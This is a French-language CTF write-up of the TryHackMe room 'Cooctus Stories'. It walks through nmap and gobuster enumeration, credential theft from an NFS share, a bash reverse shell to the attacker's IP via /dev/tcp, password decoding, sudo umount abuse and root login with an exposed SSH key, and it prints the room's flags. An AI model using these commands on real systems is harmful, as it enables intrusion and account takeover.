





# Cooctus Stories #

## Task 1 The story so far... ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.144.56 cooctus.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A cooctus.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-25 12:14 CEST
Nmap scan report for cooctus.thm (10.10.144.56)
Host is up (0.047s latency).
Not shown: 65527 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:44:62:91:90:08:99:5d:e8:55:4f:69:ca:02:1c:10 (RSA)
|   256 e5:a7:b0:14:52:e1:c9:4e:0d:b8:1a:db:c5:d6:7e:f0 (ECDSA)
|_  256 02:97:18:d6:cd:32:58:17:50:43:dd:d2:2f:ba:15:53 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41929/tcp6  mountd
|   100005  1,2,3      47575/udp   mountd
|   100005  1,2,3      50913/udp6  mountd
|   100005  1,2,3      57295/tcp   mountd
|   100021  1,3,4      35505/udp6  nlockmgr
|   100021  1,3,4      36756/udp   nlockmgr
|   100021  1,3,4      40115/tcp   nlockmgr
|   100021  1,3,4      42733/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8080/tcp  open  http     Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: CCHQ
35849/tcp open  mountd   1-3 (RPC #100005)
38737/tcp open  mountd   1-3 (RPC #100005)
40115/tcp open  nlockmgr 1-4 (RPC #100021)
57295/tcp open  mountd   1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/25%OT=22%CT=1%CU=33044%PV=Y%DS=2%DC=T%G=Y%TM=617683
OS:FC%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   125.76 ms 10.9.0.1
2   155.21 ms cooctus.thm (10.10.144.56)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.62 seconds

```

Nmap nous montre plusieurs services : 
Le service SSH sur le port 22.    
Le service rcp-bind sur le port 111.   
Le service nfs_acl sur le port 2049.   
Le service HTTP sur le port 8080.   
Ainsi que d'autres services.   



Sur la page principale il y a pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cooctus.thm:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -q
/login                (Status: 200) [Size: 556]
/cat                  (Status: 302) [Size: 219] [--> http://cooctus.thm:8080/login]
```

Avec gobuster on trouve 2 répertoires.   



Les deux lien nous mènes sur une page d'identification, le problème c'est que j'ai pas d'identifiant.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$  showmount -e cooctus.thm
Export list for cooctus.thm:
/var/nfs/general *
```

D'après nmap sur le port 2049, il y avait des dossiers partagés.   
Avec showmount on que le dossier  partager est /var/nfs/general *  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir /tmp/mnt
tim@kali:~/Bureau/tryhackme/write-up$ sudo mount -t nfs cooctus.thm:/var/nfs/general /tmp/mnt
tim@kali:~/Bureau/tryhackme/write-up$ cd /tmp/mnt/
tim@kali:/tmp/mnt$ ls
credentials.bak
tim@kali:/tmp/mnt$ cat credentials.bak 
paradoxial.test
ShibaPretzel79
```

On crée un répertoire on monter le partage.  
On monte le partage.   
Dans le partage on trouve un fichier credentials.bak, on le lit et on trouve des identifiants. 



On se connecte.  



On trouve une page qui permet de lance des commandes.  

```bash
tim@kali:/tmp/mnt$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   

Dans le champ de la page on un reverse shell : bash -c 'exec bash -i &>/dev/tcp/10.9.228.66/1234 <&1'   

```bash
tim@kali:/tmp/mnt$ nc -lnvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.144.56.
Ncat: Connection from 10.10.144.56:40064.
bash: cannot set terminal process group (714): Inappropriate ioctl for device
bash: no job control in this shell
paradox@cchq:~$ 
```

On obtient un shell.   

**Paradox is nomming cookies**

```bash
paradox@cchq:~$ id
id
uid=1003(paradox) gid=1003(paradox) groups=1003(paradox)
paradox@cchq:~$ cd ~
cd ~
paradox@cchq:~$ ls
ls
CATapp
user.txt
paradox@cchq:~$ cat user.txt	
cat user.txt
THM{2dccd1ab3e03990aea77359831c85ca2}
```

On a les droits paradox.   
On le répertoire paradox on trouve un fichier user.txt. 
On le lit et on trouve le flag. 
Le flag est : THM{2dccd1ab3e03990aea77359831c85ca2}   

**Find out what Szymex is working on**  

```bash
paradox@cchq:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

paradox@cchq:/home/szymex$ cd /home/szymex
cd /home/szymex

paradox@cchq:/home/szymex$ ls -al
ls -al
total 44
drwxr-xr-x 5 szymex szymex 4096 Feb 22  2021 .
drwxr-xr-x 6 root   root   4096 Jan  2  2021 ..
lrwxrwxrwx 1 szymex szymex    9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 szymex szymex  220 Jan  2  2021 .bash_logout
-rw-r--r-- 1 szymex szymex 3865 Feb 20  2021 .bashrc
drwx------ 2 szymex szymex 4096 Jan  2  2021 .cache
drwx------ 3 szymex szymex 4096 Jan  2  2021 .gnupg
drwxrwxr-x 3 szymex szymex 4096 Jan  2  2021 .local
-r-------- 1 szymex szymex   11 Jan  2  2021 mysupersecretpassword.cat
-rw-rw-r-- 1 szymex szymex  316 Feb 20  2021 note_to_para
-rwxrwxr-- 1 szymex szymex  735 Feb 20  2021 SniffingCat.py
-rw------- 1 szymex szymex   38 Feb 22  2021 user.txt

cat note_to_para
Paradox,

I'm testing my new Dr. Pepper Tracker script. 
It detects the location of shipments in real time and sends the coordinates to your account.
If you find this annoying you need to change my super secret password file to disable the tracker.

You know me, so you know how to get access to the file.

- Szymex

cat SniffingCat.py
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
```

Dans le répertoire /home/szymex on remarque que on peut lire note dans note_to_para.  
Dans la note on nous parle d'un mot de passe dans un scripte.   
On lit le scripte SniffingCat.py et on remarque un mot de passe encodé en rot13 qui est : pureelpbxr   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'pureelpbxr' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
cherrycoke
```

On décode le mot de passe qui est cherrycoke.   

```bash
paradox@cchq:/home/szymex$ su szymex
su szymex
Password: cherrycoke
szymex@cchq:~$ cat user.txt
cat user.txt
THM{c89f9f4ef264e22001f9a9c3d72992ef}
```

Avec le mot de passe on se connecte sous l'utilisateu szymex.  
On lit le fichier user.txt et on a le flag.  
Le flag est : THM{c89f9f4ef264e22001f9a9c3d72992ef}   

**Find out what Tux is working on**  

```bash
szymex@cchq:/home/tux$ cd /home/tux
cd /home/tux
id
uid=1001(szymex) gid=1001(szymex) groups=1001(szymex),1004(testers)

ls -al
total 52
drwxr-xr-x 9 tux  tux     4096 Feb 20  2021 .
drwxr-xr-x 6 root root    4096 Jan  2  2021 ..
lrwxrwxrwx 1 tux  tux        9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 tux  tux      220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 tux  tux     3772 Feb 20  2021 .bashrc
drwx------ 3 tux  tux     4096 Nov 21  2020 .cache
drwx------ 4 tux  tux     4096 Feb 20  2021 .config
drwx------ 5 tux  tux     4096 Feb 20  2021 .gnupg
-rw------- 1 tux  tux       58 Feb 20  2021 .lesshst
drwx------ 5 tux  tux     4096 Jan  2  2021 .local
-rw-rw-r-- 1 tux  tux      630 Jan  2  2021 note_to_every_cooctus
drwx------ 2 tux  tux     4096 Feb 20  2021 .ssh
-rw-r--r-- 1 tux  tux        0 Feb 20  2021 .sudo_as_admin_successful
drwxrwx--- 2 tux  testers 4096 Feb 20  2021 tuxling_1
-rw------- 1 tux  tux       38 Feb 20  2021 user.txt
szymex@cchq:/home/tux$ cat note_to_every_cooctus

cat note_to_every_cooctus
Hello fellow Cooctus Clan members

I'm proposing my idea to dedicate a portion of the cooctus fund for the construction of a penguin army.

The 1st Tuxling Infantry will provide young and brave penguins with opportunities to
explore the world while making sure our control over every continent spreads accordingly.

Potential candidates will be chosen from a select few who successfully complete all 3 Tuxling Trials.
Work on the challenges is already underway thanks to the trio of my top-most explorers.

Required budget: 2,348,123 Doge coins and 47 pennies.

Hope this message finds all of you well and spiky.

- TuxTheXplorer

```

On va dans le répertoire /home/tux.   
On peut lire le fichier note_to_every_cooctus. 
Dans le fichier note_to_every_cooctus, il y a pas grand chose de pertinant.  

```bash
cd tuxling_1
szymex@cchq:/home/tux/tuxling_1$ ls
ls
nootcode.c  note
szymex@cchq:/home/tux/tuxling_1$ cat note
cat note
Noot noot! You found me. 
I'm Mr. Skipper and this is my challenge for you.

General Tux has bestowed the first fragment of his secret key to me.
If you crack my NootCode you get a point on the Tuxling leaderboards and you'll find my key fragment.

Good luck and keep on nooting!

PS: You can compile the source code with gcc
szymex@cchq:/home/tux/tuxling_1$ cat nootcode.c
cat nootcode.c
#include <stdio.h>

#define noot int
#define Noot main
#define nOot return
#define noOt (
#define nooT )
#define NOOOT "f96"
#define NooT ;
#define Nooot nuut
#define NOot {
#define nooot key
#define NoOt }
#define NOOt void
#define NOOT "NOOT!\n"
#define nooOT "050a"
#define noOT printf
#define nOOT 0
#define nOoOoT "What does the penguin say?\n"
#define nout "d61"

noot Noot noOt nooT NOot
    noOT noOt nOoOoT nooT NooT
    Nooot noOt nooT NooT

    nOot nOOT NooT
NoOt

NOOt nooot noOt nooT NOot
    noOT noOt NOOOT nooOT nout nooT NooT
NoOt

NOOt Nooot noOt nooT NOot
    noOT noOt NOOT nooT NooT
NoOt
szymex@cchq:/home/tux/tuxling_1$ 
```

Comme on apartient au goupe testers on va dans tuxling_1.  
On trouve une note qui nous de faire un challenge et de compiller un fichier.   
L'autre fichier nootCode.c est du code source en C.  

```bash
#include <stdio.h>

#define int int
#define main main
#define return return
#define ( (
#define ) )
#define "f96" "f96"
#define ; ;
#define nuut nuut
#define { {
#define key key
#define } }
#define void void
#define "NOOT!\n" ""NOOT!\n"!\n"
#define "050a" "050a"
#define printf printf
#define 0 0
#define "What does the penguins say?\n" "What does the penguin say?\n"
#define "d61" "d61"

int main ( ) {
    printf ( "What does the penguins say?\n" ) ;
    nuut ( ) ;

    return 0 ;
}

void key ( ) {
    printf ( "f96" "050a" "d61" ) ;
}

void nuut ( ) {
    printf ( "NOOT!\n" ) ;
}
```

On décode le fichier et on trouve la clef f96050ad61.  

```bash
find / -name 'tuxling_*' 2>/dev/null
/home/tux/tuxling_3
/home/tux/tuxling_1
/media/tuxling_2
```

On cherche les autres fragements de hash.  

```bash
cd /media/tuxling_2
szymex@cchq:/media/tuxling_2$ ls
ls
fragment.asc  note  private.key
szymex@cchq:/media/tuxling_2$ cat note
cat note
Noot noot! You found me. 
I'm Rico and this is my challenge for you.

General Tux handed me a fragment of his secret key for safekeeping.
I've encrypted it with Penguin Grade Protection (PGP).

You can have the key fragment if you can decrypt it.

Good luck and keep on nooting!
```

Dans tuxling_2 on trouve un note ou nous dit que le fichier est en chiffré avec PGP.  

```bash
szymex@cchq:/media/tuxling_2$ gpg --import private.key
gpg --import private.key
gpg: key B70EB31F8EF3187C: public key "TuxPingu" imported
gpg: key B70EB31F8EF3187C: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

szymex@cchq:/media/tuxling_2$ gpg fragment.asc
gpg fragment.asc
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: encrypted with 3072-bit RSA key, ID 97D48EB17511A6FA, created 2021-02-20
      "TuxPingu"

cat fragment
The second key fragment is: 6eaf62818d
```

On importe la clef.  
On décode le fichier fragment.asc.  
On lit le fichier fragment est on a notre deuxième fragment qui est : 6eaf62818d   

```bash
cd /home/tux
szymex@cchq:/home/tux$ cd tuxling_3
cd tuxling_3
szymex@cchq:/home/tux/tuxling_3$ ls
ls
note
szymex@cchq:/home/tux/tuxling_3$ cat note
cat note
Hi! Kowalski here. 
I was practicing my act of disappearance so good job finding me.

Here take this,
The last fragment is: 637b56db1552

Combine them all and visit the station.
```

Dans le répertoire tuxling_3 on trouve une notre, le dernier fragment est dedant.  
On nous dit de tous les combinés et visiter la station (référence crackstaion).  

Hash complet : f96050ad616eaf62818d637b56db1552

  

On décode le hash dans crack station est on trouve le mot de passe : tuxykitty   

```bash
szymex@cchq:/home/tux$ su tux
su tux
Password: tuxykitty
tux@cchq:~$ cat user.txt
cat user.txt
THM{592d07d6c2b7b3b3e7dc36ea2edbd6f1}
```

On se connecte sous l'utilisateur tux avec le mot de passe. 
On lit le fichier user.txt.  
On a la flag qui est : THM{592d07d6c2b7b3b3e7dc36ea2edbd6f1}   

**Find out what Varg is working on**

```bash
tux@cchq:~$ sudo -l
sudo -l
Matching Defaults entries for tux on cchq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tux may run the following commands on cchq:
    (varg) NOPASSWD: /home/varg/CooctOS.py

ls -al
total 48
drwxr-xr-x  7 varg varg      4096 Feb 20  2021 .
drwxr-xr-x  6 root root      4096 Jan  2  2021 ..
lrwxrwxrwx  1 varg varg         9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 varg varg       220 Jan  2  2021 .bash_logout
-rw-r--r--  1 varg varg      3771 Jan  3  2021 .bashrc
drwx------  2 varg varg      4096 Jan  3  2021 .cache
-rwsrws--x  1 varg varg      2146 Feb 20  2021 CooctOS.py
drwxrwx--- 11 varg os_tester 4096 Feb 20  2021 cooctOS_src
-rw-rw-r--  1 varg varg        47 Feb 20  2021 .gitconfig
drwx------  3 varg varg      4096 Jan  3  2021 .gnupg
drwxrwxr-x  3 varg varg      4096 Jan  3  2021 .local
drwx------  2 varg varg      4096 Feb 20  2021 .ssh
-rw-------  1 varg varg        38 Feb 20  2021 user.txt

cd cooctOS_src

tux@cchq:/home/varg/cooctOS_src$ ls -al
ls -al
total 44
drwxrwx--- 11 varg os_tester 4096 Feb 20  2021 .
drwxr-xr-x  7 varg varg      4096 Feb 20  2021 ..
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 bin
drwxrwx---  4 varg os_tester 4096 Feb 20  2021 boot
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 etc
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 games
drwxrwxr-x  8 varg os_tester 4096 Feb 20  2021 .git
drwxrwx---  3 varg os_tester 4096 Feb 20  2021 lib
drwxrwx--- 16 varg os_tester 4096 Feb 20  2021 run
drwxrwx---  2 varg os_tester 4096 Feb 20  2021 tmp
drwxrwx--- 11 varg os_tester 4096 Feb 20  2021 var
```

On voit que sudo est configuré pour exécuter /home/varg/CooctOS.py sans mot de passe avec les droits de varg.   
Malheureusement je n'ai pas l'autorisation de lire le fichier CooctOS.py.   

Dans le répertoire varg on remarque un autre dossier cooctOS_src dans se dossier on remarque un depôt git.  

```bash
tux@cchq:/home/varg/cooctOS_src$ git show
commit 8b8daa41120535c569d0b99c6859a1699227d086 (HEAD -> master)
Author: Vargles <varg@cchq.noot>
Date:   Sat Feb 20 15:47:21 2021 +0000

    Removed CooctOS login script for now

diff --git a/bin/CooctOS.py b/bin/CooctOS.py
deleted file mode 100755
index 4ccfcc1..0000000
--- a/bin/CooctOS.py
+++ /dev/null
@@ -1,52 +0,0 @@
-#!/usr/bin/python3
-
-import time
-import os;
-import pty;
-
-#print(chr(27)+ "[2J")
-logo = """\033[1;30;49m
- ██████╗ ██████╗  ██████╗  ██████╗████████╗ \033[1;37;49m██████╗ ███████╗\033[1;30;49m
-██╔════╝██╔═══██╗██╔═══██╗██╔════╝╚══██╔══╝\033[1;37;49m██╔═══██╗██╔════╝\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║███████╗\033[1;30;49m
-██║     ██║   ██║██║   ██║██║        ██║   \033[1;37;49m██║   ██║╚════██║\033[1;30;49m
-╚██████╗╚██████╔╝╚██████╔╝╚██████╗   ██║   \033[1;37;49m╚██████╔╝███████║\033[1;30;49m
- ╚═════╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝    \033[1;37;49m╚═════╝ ╚══════╝\033[1;30;49m
-"""
-print(logo)
-print("                       LOADING")
-print("[", end='')
-
-for i in range(0,60):
-    #print(chr(27)+ "[2J")
-    #print(logo)
-    #print("                       LOADING")
-    print("[", end='')
-    print("=" * i, end='')
-    print("]")
-    time.sleep(0.02)
-    print("\033[A\033[A")
-
-print("\032")
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Cold boot detected. Flux Capacitor powered up")
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Mounted Cooctus Filesystem under /opt")
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Finished booting sequence")
-
-print("CooctOS 13.3.7 LTS cookie tty1")
-uname = input("\ncookie login: ")
-pw = input("Password: ")
-
-for i in range(0,2):
-    if pw != "slowroastpork":
-        pw = input("Password: ")
-    else:
-        if uname == "varg":
-            os.setuid(1002)
-            os.setgid(1002)
-            pty.spawn("/bin/rbash")
-            break
-        else:
-            print("Login Failed")
-            break
```

En regardant les modification avec git show on voit le code source du scripte.   
Dans le code source du scripte il y un mode de passe, si on le tape on a un shell.  
Le mot de passe est : slowroastpork

```bash
tux@cchq:/home/varg/cooctOS_src$ sudo -u varg /home/varg/CooctOS.py

 ██████╗ ██████╗  ██████╗  ██████╗████████╗ ██████╗ ███████╗
██╔════╝██╔═══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔═══██╗██╔════╝
██║     ██║   ██║██║   ██║██║        ██║   ██║   ██║███████╗
██║     ██║   ██║██║   ██║██║        ██║   ██║   ██║╚════██║
╚██████╗╚██████╔╝╚██████╔╝╚██████╗   ██║   ╚██████╔╝███████║
 ╚═════╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝    ╚═════╝ ╚══════╝

                       LOADING
�===========================================================]
[  OK  ] Cold boot detected. Flux Capacitor powered up
[  OK  ] Mounted Cooctus Filesystem under /opt
[  OK  ] Finished booting sequence
CooctOS 13.3.7 LTS cookie tty1

cookie login: varg
Password: slowroastpork

varg@cchq:/home/varg/cooctOS_src$ cat ../user.txt
THM{3a33063a4a8a5805d17aa411a53286e6}
```

On met les bons identiants est on a un shell.  
On lit le fichier user.txt et on a le flag.  
Le flag est : THM{3a33063a4a8a5805d17aa411a53286e6}  

**Get full root privileges**

```bash
varg@cchq:/home/varg/cooctOS_src$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

La configuration sudo nous permet d'exécuter /bin/unmount sans mot de passe avec les droits root.  

```bash
varg@cchq:/home/varg/cooctOS_src$ mount | grep opt
/dev/mapper/ubuntu--vg-ubuntu--lv on /opt/CooctFS type ext4 (rw,relatime,data=ordered)
```

On regarde se qui est monté.
On voit que /opt/CoocFS est monté.  

```bash
varg@cchq:/home/varg/cooctOS_src$ sudo -root /bin/umount /opt/CooctFS
varg@cchq:/home/varg/cooctOS_src$ su varg
Password: 
varg@cchq:~/cooctOS_src$ cd /opt/CooctFS/
varg@cchq:/opt/CooctFS$ ls
root
varg@cchq:/opt/CooctFS$ cd root/
varg@cchq:/opt/CooctFS/root$ ls
root.txt
varg@cchq:/opt/CooctFS/root$ cat root.txt 
hmmm...
No flag here. You aren't root yet.
```

On démonte /opt/CoocFS.   
Dans /opt/CoocFS on trouve un fichir root.txt mais c'est le bon.  

```bash
varg@cchq:/opt/CooctFS/root$ ls -al
total 28
drwxr-xr-x 5 root root 4096 Feb 20  2021 .
drwxr-xr-x 3 root root 4096 Feb 20  2021 ..
lrwxrwxrwx 1 root root    9 Feb 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20  2021 .bashrc
drwx------ 3 root root 4096 Feb 20  2021 .cache
drwxr-xr-x 3 root root 4096 Feb 20  2021 .local
-rw-r--r-- 1 root root   43 Feb 20  2021 root.txt
drwxr-xr-x 2 root root 4096 Feb 20  2021 .ssh
varg@cchq:/opt/CooctFS/root$ cd .ssh/

varg@cchq:/opt/CooctFS/root/.ssh$ ls
id_rsa  id_rsa.pub

varg@cchq:/opt/CooctFS/root/.ssh$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:7/RM1nMYqyZHC8ICXMcPUC3vIVlZuQab39ZsXs9Q+NI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct 25 12:26:59 UTC 2021

  System load:  0.0                Processes:           130
  Usage of /:   35.4% of 18.57GB   Users logged in:     1
  Memory usage: 49%                IP address for eth0: 10.10.144.56
  Swap usage:   0%


0 packages can be updated.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 20 22:22:12 2021 from 172.16.228.162
root@cchq:~# cat /root/root.txt
THM{H4CK3D_BY_C00CTUS_CL4N}
```

On trouve un dossier .ssh avec un clef privée.   
On se connecte avec la clef sur le compte root.   
On lit le fichier root.txt dans le répertoire root.  
On a notre flag qui est : THM{H4CK3D_BY_C00CTUS_CL4N}    